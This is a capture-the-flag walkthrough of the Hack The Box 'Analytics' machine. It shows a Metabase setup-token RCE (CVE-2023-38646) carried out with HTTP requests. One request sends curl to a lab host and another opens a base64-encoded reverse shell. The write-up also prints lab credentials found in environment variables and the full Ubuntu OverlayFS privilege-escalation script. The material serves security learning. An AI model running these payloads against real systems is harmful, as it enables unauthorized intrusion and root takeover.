



+++
title = 'Analytics'
date = 2024-08-19T10:46:33-03:00
draft = false
+++

## Machine info


https://app.hackthebox.com/machines/569
- Difficulty: Easy
- OS: Linux
- Release date: 07 Oct, 2023
- Rooted on: 02 Dec, 2023

## Foothold

The login page takes us to data.analytics.htb, which is a Metabase login page.



As I couldn’t find anything that could indicate the version, I just searched “metabase cve” on google and found a page containing a couple of them. I read the first one, which was an RCE registered as [CVE-2023-38646](https://www.cvedetails.com/cve/CVE-2023-38646/) affecting metabase open-source prior to `0.46.6.1`. I then searched for public exploits for the CVE and found out it involved the disclosure of a token under `/api/session/properties`, and fortunately, that endpoint was accessible for us.



Then I tried finding the version on the page, and found out that it was on the range of affected versions of the CVE.


I tried looking for the stated `setup-token`, and we got it there.



### First exploit attempt

Tried running [this PoC](https://github.com/kh4sh3i/CVE-2023-38646/blob/main/CVE-2023-38646.py) manually on burp suite, which didn’t work for me, for some reason.

```http
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Accept: application/json
Content-Type: application/json
Connection: close
Content-Length: 558

{
    "details": {
        "details": {
            "advanced-options": true,
            "classname": "org.h2.Driver",
            "subname": "mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS SHELLEXEC AS $$ void shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(new String[]{\"sh\", \"-c\", cmd})\\;}$$\\;CALL SHELLEXEC('curl -d key=kh4sh3i 10.10.14.30:8000 ');",
            "subprotocol": "h2"
        },
        "engine": "postgres",
        "name": "x"
    },
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f"
}
```


```http
HTTP/1.1 400 Bad Request
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 22 Oct 2023 06:57:59 GMT
Content-Type: application/json;charset=utf-8
Content-Length: 299
Connection: close
X-Frame-Options: DENY
X-XSS-Protection: 1; mode=block
Last-Modified: Sun, 22 Oct 2023 06:57:59 GMT
Strict-Transport-Security: max-age=31536000
Set-Cookie: metabase.DEVICE=c52407c5-4f69-4e91-a934-a29a8e731c6d;HttpOnly;Path=/;Expires=Thu, 22 Oct 2043 06:57:59 GMT;SameSite=Lax
X-Permitted-Cross-Domain-Policies: none
Cache-Control: max-age=0, no-cache, must-revalidate, proxy-revalidate
X-Content-Type-Options: nosniff
Content-Security-Policy: default-src 'none'; script-src 'self' 'unsafe-eval' https://maps.google.com https://accounts.google.com    'sha256-K2AkR/jTLsGV8PyzWha7/ey1iaD9c5jWRYwa++ZlMZc=' 'sha256-ib2/2v5zC6gGM6Ety7iYgBUvpy/caRX9xV/pzzV7hf0=' 'sha256-isH538cVBUY8IMlGYGbWtBwr+cGqkc4mN6nLcA7lUjE='; child-src 'self' https://accounts.google.com; style-src 'self' 'unsafe-inline' https://accounts.google.com; font-src *; img-src * 'self' data:; connect-src 'self' https://accounts.google.com metabase.us10.list-manage.com   ; manifest-src 'self';  frame-ancestors 'none';
Expires: Tue, 03 Jul 2001 06:00:00 GMT

{"message":"IO Exception: \"java.io.IOException: Cannot run program \"\"javac\"\": error=2, No such file or directory\"; SQL statement:\nCREATE ALIAS SHELLEXEC AS $$ void shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(new String[]{\"sh\", \"-c\", cmd});}$$ [90028-212]"}
```


Also found this interesting article about it:

https://blog.calif.io/p/reproducing-cve-2023-38646-metabase?subscribe_prompt=free

### Second exploit attempt

I tried running this metasploit module located on `exploits/linux/http/metabase_setup_token_rce.rb`, but wasn’t able, for some reason. Probably because I lack practice with the framework itself.


```
msf6 exploit(metabase_setup_token_rce) > show options

Module options (exploit/metabase_setup_token_rce):

   Name       Current Setting      Required  Description
   ----       ---------------      --------  -----------
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     data.analytical.htb  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80                   yes       The target port (TCP)
   SSL        false                no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                    yes       The URI of the Metabase Application
   VHOST                           no        HTTP server virtual host

Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  0.0.0.0          yes       The listen address (an interface may be specified)
   LPORT  8000             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

View the full module info with the info, or info -d command.
```

```
msf6 exploit(metabase_setup_token_rce) > rerun
[*] Reloading module...

[*] Started reverse TCP handler on 0.0.0.0:8000 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 0.46.6
[+] Found setup token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[*] Sending exploit (may take a few seconds)
[*] Exploit completed, but no session was created.
```

### Third exploit attempt

Got shell adapting the payload from https://github.com/securezeron/CVE-2023-38646/blob/main/CVE-2023-38646-Reverse-Shell.py and sending the request with burp repeater, base64 encoding the reverse shell payload.

```http
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 13_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/json
Content-Length: 491
Connection: close

{
  "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
  "details": {
    "details": {
      "db": "zip:/app/metabase.jar!/sample-database.db;TRACE_LEVEL_SYSTEM_OUT=0\\;CREATE TRIGGER MMYAJXSA BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtYyAnMDwmMTY2LTtleGVjIDE2Njw+L2Rldi90Y3AvMTAuMTAuMTQuMzcvODAwMDtzaCA8JjE2NiA+JjE2NiAyPiYxNjYn}|{base64,-d}|{bash,-i}')\n$$--=x",
      "advanced-options": false,
      "ssl": true
    },
    "name": "UoZgzIaM4YAm",
    "engine": "h2"
  }
}
```

We get a shell as user `metabase`.


## User

```bash
$ ls -la /
```
```
total 96
drwxr-xr-x    1 root     root          4096 Dec  2 04:49 .
drwxr-xr-x    1 root     root          4096 Dec  2 04:49 ..
-rwxr-xr-x    1 root     root             0 Dec  2 04:49 .dockerenv
drwxr-xr-x    1 root     root          4096 Jun 29 20:40 app
drwxr-xr-x    1 root     root          4096 Jun 29 20:39 bin
drwxr-xr-x    5 root     root           340 Dec  2 04:49 dev
drwxr-xr-x    1 root     root          4096 Dec  2 04:49 etc
drwxr-xr-x    1 root     root          4096 Aug  3 12:16 home
drwxr-xr-x    1 root     root          4096 Jun 14 15:03 lib
drwxr-xr-x    5 root     root          4096 Jun 14 15:03 media
drwxr-xr-x    1 metabase metabase      4096 Aug  3 12:17 metabase.db
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 mnt
drwxr-xr-x    1 root     root          4096 Jun 15 05:12 opt
drwxrwxrwx    1 root     root          4096 Aug  7 11:10 plugins
dr-xr-xr-x  227 root     root             0 Dec  2 04:49 proc
drwx------    1 root     root          4096 Aug  3 12:26 root
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 run
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 sbin
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 srv
dr-xr-xr-x   13 root     root             0 Dec  2 04:49 sys
drwxrwxrwt    1 root     root          4096 Aug  3 12:16 tmp
drwxr-xr-x    1 root     root          4096 Jun 29 20:39 usr
drwxr-xr-x    1 root     root          4096 Jun 14 15:03 var
```


On the first look, we see the `.dockerenv` file indicating that we might be in a Docker container. This point also doesn’t have python, so It’d be harder to get a full tty.

I then proceeded to look into interesting directories and files, such as `/app` and `/home/metabase`. They seemed like good candidates for finding credentials, and I actually spent a lot of time trying to poke around them, but didn’t find anything useful. So I went through HackTrick’s Linux PrivEsc guide and found these interesting environment variables:


```bash
$ (env || set) 2>/dev/null
```
```
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=5055712452fd
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/home/metabase
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=8
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
OLDPWD=/home/metabase
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
```
The credentials stored as `META_USER` AND `META_PASS` grant us ssh access as `metalytics@analytical.htb`, which leads to the user flag.

## Root

Although root is a kernel exploit, it took me a lot of time to find the right one.

After running `uname -a`, we get the kernel and OS version running.


```bash
metalytics@analytical.htb:~$ uname -a
```
```
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```


I couldn’t find anything with searchsploit there, but after a couple of google searches on both Ubuntu and linux versions, I found [this interesting exploit](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/blob/main/exploit.sh) for both CVE-2023-2640 and CVE-2023-32629.


```bash
#!/bin/bash

# CVE-2023-2640 CVE-2023-3262: GameOver(lay) Ubuntu Privilege Escalation
# by g1vi https://github.com/g1vi
# October 2023

echo "[+] You should be root now"
echo "[+] Type 'exit' to finish and leave the house cleaned"

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```


The exploit above gives us a root shell, which leads us to the root flag under `/root/root.txt`.

Here’s the website that confirmed me that this version was vulnerable:

https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability